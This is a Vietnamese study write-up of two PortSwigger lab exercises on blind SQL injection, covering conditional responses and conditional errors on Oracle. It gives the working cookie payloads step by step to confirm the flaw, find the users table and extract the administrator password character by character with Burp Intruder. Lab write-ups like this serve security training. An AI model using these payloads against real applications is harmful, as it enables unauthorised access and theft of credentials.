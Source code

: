 I. Blind SQL injection vul<br>
+ app ko phản hồi kết quả của truy vấn SQL or chi tiết lỗi database trong phản hồi của nó
+ UNION attack ko hiệu quả trong trh này<br>

II. Exploiting blind SQL injection by triggering conditional responses<br>
1. Lý thuyết<br>
+ TrackingId cookie khi đc xử lý -> app sẽ báo là có phải ng dùng đã bt hay ko <br>
-> đây là lỗ hổng can khai thác<br>
+ cho phép xác đinh câu trl cho bất kì điều kiện đơn đc tiêm nào và trích xuất từng phần data tại 1 thời điểm (đúng thì phản hồi sai thì ko)<br>

2. Lab: Blind SQL injection with conditional responses<br>
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection
vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/5aeeac77d52d55cdff3f9a5d86d050c9a77ebfef7657cccb459bee29ad5c3fce?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-conditional-responses<br>

3. Giải<br>
+ B1 xác định TrackingId hoạt động ko: Cookie: TrackingId=cokrQmPGjyNp6yK5; (này có sẵn trong phản hồi rồi) -> trả về Welcome Back
+ B2 check phản hồi khi đk đúng or sai:
<br>Đúng: Cookie: TrackingId=cokrQmPGjyNp6yK5' and 1=1-- -> phản hồi
<br>Sai: Cookie: TrackingId=cokrQmPGjyNp6yK5' and 1=2-- -> ko phản hồi
+ xác định có bảng users ko: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users limit 1) = 'x'-- -> phản hồi
+ xác định có username 'administrator' ko: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users where username = 'administrator') = 'x'-- -> phản hồi
+ xác định chiều dài password: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users where username = 'administrator' and length(password)>1) = 'x'--
+ thử lần lượt đến khi tìm thấy chiều dài phù hợp: 20 (can tìm bằng Intruder)
+ tìm mật khẩu (nhiều kí tự -> xài Burp Intruder):Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select substring(password,1,1) from users where username='administrator')='§a§'-- (trọng tải đánh vào chữ 'a')
+ vào payload add vào danh sách 0-9, a-z, vào cài đặt phần Grep-match sửa thành 'Welcome' và chạy lấy kết quả<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/8c7db2d6-426c-4ed4-876a-86b58ed091bd)<br>

Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select substring(password,2,1) from users where username='administrator')='§a§'-- <br>
-> tiếp tục đến khi tìm đc toàn bộ mật khẩu: pduzuqxql3l3z6bguzec<br>

III. Error-based SQL injection<br>
1. Lý thuyết<br>
- nơi bạn can xài tin nhắn lỗi để trích xuất hoặc suy ra dữ liệu nhạy cảm từ cơ sở dữ liệu dù trong ngữ cảnh mù
- phụ thuộc cấu hình database và loại lỗi bạn can gây ra:<br>
  + khiến app trả về phản hồi lỗi cụ thể dựa trên kết quả biểu thức bool
  + kích hoạt thông báo lỗi xuất data đc truy vấn trả về, biến vul mù thành can thấy được<br>

IV. Exploiting blind SQL injection by triggering conditional errors<br>
1. Lý thuyết<br>
- dùng khi tiêm điều kiện bool khác nhau ko trả về phản hồi khác nhau
- xài cách: sửa truy vấn làm lỗi database chỉ khi đk đúng, thg thì lỗi database sẽ gây ra các phản hồi app khác nhau
- VD:<br>
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a<br>
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a<br>
- xài CASE: check điều kiện và trả về 1 biểu thức khác phụ thuộc vào biểu thức đúng hay ko: BT1: ko có lỗi, BT2: lỗi chia cho 0
- -> dùng để check khi điều kiện tiêm là đúng: xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a<br>

2. lap: Lab: Blind SQL injection with conditional errors<br>
- [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors](https://0a3b0068031732fa8127f2ef006e0086.web-security-academy.net/)<br>
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

 Hint
This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.<br>

3. Giải<br>
+ B1: xác định xem có lỗ hổng SQL ko: Cookie: TrackingId=vcaVyDhReEvMhbkA'; -> có lỗ hổng<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/e909715c-9e84-4264-a92a-3a8d5ffc037f)<br>

+ B2: xác minh lại xem có đúng là do lỗi cú pháp chỉ dùng 1 dấu nháy đơn không Cookie: TrackingId=vcaVyDhReEvMhbkA''; -> ko có lỗi -> đúng cú pháp thì mất lỗi -> có vul SQL<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/d23fd83a-4079-495d-b278-9530915cc69d)<br>

+ B3: để chắc chắn là do lỗi cú pháp -> xài truy vấn con: Cookie: TrackingId=vcaVyDhReEvMhbkA'||(select '')||'; -> báo lỗi -. chắc chắn lỗi cú pháp<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/e798410e-a2cb-4de2-9553-1b68bc07c8a5)<br>

+ B4: xác định xem tiêm truy vấn vào có được xử lý không: Cookie: TrackingId=vcaVyDhReEvMhbkA'||(select '' from chau)||'; -> đúng cú pháp nhưng báo lỗi -> có xử lý<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/848c626e-aa5a-4c6a-8b1c-ac1a915e1ce2)<br>

+ B5: xác định có bảng users ko: Cookie: TrackingId=vcaVyDhReEvMhbkA'||(select '' from users where rownum = 1)||'; -> ko báo lỗi -> có<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/4023e5ac-4e39-4a1a-b5e5-3eeafb023e09)<br>

+ B6: xác nhận lỗ hổng, thu thập in4: Cookie: TrackingId=tZ0tAR2pIIY23rAn'||(select case when (1=1) then to_char(1/0) else '' end from dual)||'; -> xác nhận đk đúng -> báo lỗi<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/16f61c77-4ea5-4348-bb6b-1d761073697c)<br>

+ B7: Cookie: TrackingId=tZ0tAR2pIIY23rAn'||(select case when (1=2) then to_char(1/0) else '' end from dual)||'; -> đk sai thì ko báo lỗi<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/06bb3cac-d63d-40a0-b578-ebc6a65d0a14)<br>

+ B8: k.tra tồn tại username = administrator ko: Cookie: TrackingId=tZ0tAR2pIIY23rAn'||(select case when (1=1) then to_char(1/0) else '' end from users where username = 'administrator')||'; -> báo lỗi -> có<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/a0d2de6a-e282-4f19-af97-440f0e6ee771)<br>

+ B9: dùng burp check độ dài password: TrackingId=tZ0tAR2pIIY23rAn'||(select case when length(password)>§1§ then to_char(1/0) else '' end from users where username = 'administrator')||'; -> dài 20 kí tự<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/912cfcd0-76d7-4d8e-a1b2-ff89c60bd0a8)<br>

+ B10: dùng burp để tìm password: Cookie: TrackingId=tZ0tAR2pIIY23rAn'||(select case when substr(password,§1§,1)='§a§' then to_char(1/0) else '' end from users where username = 'administrator')||';<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/4cb3c50a-ba19-4cc2-8e32-b5aae990f6f7)<br>

-> password: u2plqcroeoaj8z27alxl<br>
